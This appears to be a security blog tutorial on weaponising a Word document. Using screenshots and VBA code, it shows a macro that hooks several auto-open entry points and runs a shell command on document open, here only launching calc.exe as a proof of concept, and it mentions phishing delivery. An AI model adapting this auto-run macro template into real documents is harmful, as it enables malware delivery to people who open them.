 
# VBA Macro

In malware wild, macro malware is typically transmitted through phishing emails that contain malicious attachments. When the macros run, malware coded into the VBA will begin to infect all files that are opened using Microsoft Office. In our case, we will only execute a `calc.exe` app.

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)


Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c calc.exe")
End Sub
```

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maldoc-weaponization/2020-11-02-22-59-48.png)

